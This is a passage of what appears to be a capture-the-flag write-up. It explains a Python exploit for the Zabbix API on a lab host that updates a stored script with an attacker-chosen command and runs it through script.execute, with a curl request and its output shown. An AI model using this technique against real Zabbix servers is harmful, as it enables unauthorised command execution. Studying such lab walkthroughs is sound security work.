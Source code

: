 This just prints the prompt, reads the result into `cmd`. If `cmd` is empty, it prints “Result of last command:”. If cmd is “quit”, it exits.

Next it uses the script.update API to update scriptid 1 with the new command it read in:

```

### update
        payload = {
                "jsonrpc": "2.0",
                "method": "script.update",
                "params": {
                    "scriptid": "1",
                    "command": ""+cmd+""
                },
                "auth" : auth['result'],
                "id" : 0,
        }

        cmd_upd = requests.post(url, data=json.dumps(payload), headers=(headers))

```

So what happens if cmd is the empty string? I can use `curl` to check:

```

root@kali# curl -s http://10.10.10.108/zabbix/api_jsonrpc.php -H "Content-Type: application/json-rpc" -d '{"jsonrpc":"2.0","method":"script.update","id":1,"auth":"e53de718bf70398f6e26c8cafbc246c6","params
":{"scriptid":"1", "command":""}}' | jq .
{
  "jsonrpc": "2.0",
  "error": {
    "code": -32602,
    "message": "Invalid params.",
    "data": "Script command cannot be empty."
  },
  "id": 1
}

```

So the script remains unchanged. That’s why the message prints saying that it will run the last command.

Finally, there’s an API call to run the script using script.execute:

```

### execute
        payload = {
                "jsonrpc": "2.0",
                "method": "script.execute",
                "params": {
                    "scriptid": "1",
                    "hostid": ""+hostid+""
                },
                "auth" : auth['result'],
                "id" : 0,
        }

        cmd_exe = requests.post(url, data=json.dumps(payload), headers=(headers))
        cmd_exe = cmd_exe.json()
        print cmd_exe["result"]["value"]

```

